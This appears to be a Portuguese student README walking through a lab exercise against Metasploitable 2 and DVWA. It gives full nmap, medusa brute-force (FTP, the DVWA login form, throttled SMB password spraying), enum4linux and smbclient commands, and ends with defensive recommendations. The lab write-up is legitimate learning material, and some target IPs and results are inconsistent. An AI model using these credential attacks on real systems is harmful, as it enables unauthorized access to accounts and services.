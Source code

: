 # README.md
Repositorio do meu primeiro teste utilizando kali e medusa.
PROJETO CYBERSEGURANÇA

Nesse projeto testei vulnerabilidades do Metasploitable 2 e DVWA utilizando do kali Linux e da ferramenta medusa.

Comecei olhando qual seria o IP alvo, que no caso estava no Metasploitable 2 e era o "192.168.98.128" (no meu caso), em seguida dentro do kali Linux utilizando o CMD verifiquei quais portas estavam abertas e a tinha algumas abertas, mas a principal e a que eu iria tirar proveito seria a FTP, o comando para verificar quais portas estvam abertos e o comando para adentrar a parte de ftp foi:

nmap -sV -p 21,22,80,445,139 192.168.98.128 = ver as portas abertas;

ftp 192.168.98.128 = adentrar o ftp do ip

Depois foi acessar o ftp desse ip pelo cmd, usando o usuário e login, para descobrir isso foi necessário criar um comando que da nomes possíveis de usuários e senhas, os comando eram;

echo -e "user\nmsfadmin\nadmin\nroot" > users.txt = para usuários;

echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt = para senhas;

Depois disso ficar salvo, utilizei um código para que a medusa descobrisse qual seria o usuário e a senha usando essas possíveis combinações que foram dada;

medusa -h 192.168.98.128 -U users.txt -P pass.txt -M ftp -t 6

-h = IP alvo
-U lista de usuários;
-P = lista de senhas;
-M modulo a ser atacado
-t = tentativas simultâneas a serem feitas (threads utilizadas) 

Após isso ela me mostrou que o login e senha seria msfadmin e msfadmin respectivamente, depois disso tive acesso ao ftp desse ip alvo.

Depois fui testar como seria com um formulário on-line que no caso foi o DVWA.

Comecei apenas colocando um login e senha aleatórios e depois indo no modo de inspecionar do navegador > network > request;

Lá deu para verificar oque o servidor espera receber como parâmetros e isso vai ser útil para quando for utilizar o medusa, pois assim ela identifica oque é uma senha correta de uma errada.

Após isso criei mais uma wordlist e senhas possíveis para utilizar dentro da medusa e digitei os seguinte código:

echo -e "user\nmsfadmin\nadmin\nroot" > users.txt

echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt 

medusa -h 192.168.56.102 -U users.txt -P pass.txt -M http \  
  -m PAGE:/dvwa/login.php \
  -m FORM:'username=^USER^&password=^PASS^&Login=Login' \
  -m FAIL:'Login failed' -t 6

No final ela me retornou que o usuário e senha seria: admin (user) e password (senha).  

Atenção: Após ela acertar essa combinação, ela deu que todas as seguintes também estavam corretas, oque se deve ao fato de que depois que ela acertou o primeiro os seguintes vieram com parâmetros de aberto pois ela já tinha feito o login, isso aconteceu apenas no modulo HTTP, diferente de ftp onde apenas um apareceu como correto.


Por fim também testei um ataque utilizando de enumeração e password spraying.

Utilizando os códigos: 

enum4linux -a 192.168.98.128 | tee enum4_output.txt;

E depois 

less enum4_output.txt;

Consigo acessar uma lista de usuários, assim eu consigo pegar todos eles e testar algumas senhas até que alguma seja a correta em algum deles, utilizo também de comandos para salvar a lista de usuários que quero que seja testado as senhas e as senhas que quero que seja testadas neles.

echo -e "user\nnmsfadmin\nservice" > smb_users.txt;

echo -e "password\n123456\nWelcome123\nnmsfadmin" > senhas_spray.txt

Após isso, digito outro código para que a medusa comece a testar as senhas.

medusa -h 192.168.56.102 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50

Um pouco diferente do primeiro, pois esse faz com que as tentaaivas sejam mais espaçadas, assim evitando bloqueios.

Após isso ela viu que o usuário "admin" tinha como senha "admin". 

Para ver se estava correto utilizei o comando: 

smbclient -L //192.168.56.102 -U msfadmin;

Após isso vai pedir a senha do usuário e colocando ela corretamente obtive acesso a uma lista de compartilhamente que contia mais informações.

Depois desses teste as recomendações que eu tenho são de: bloqueio automático de IP após múltiplas tentativas incorretas, autenticações em 2 fatores, CAPTCHA, senhas fortes e usualmente trocadas, monitoramento inteligente com IA e também auditorias regulares para que se possam achar erros (se tiver) e corrigi-los antes que possam dar problemas.  
 

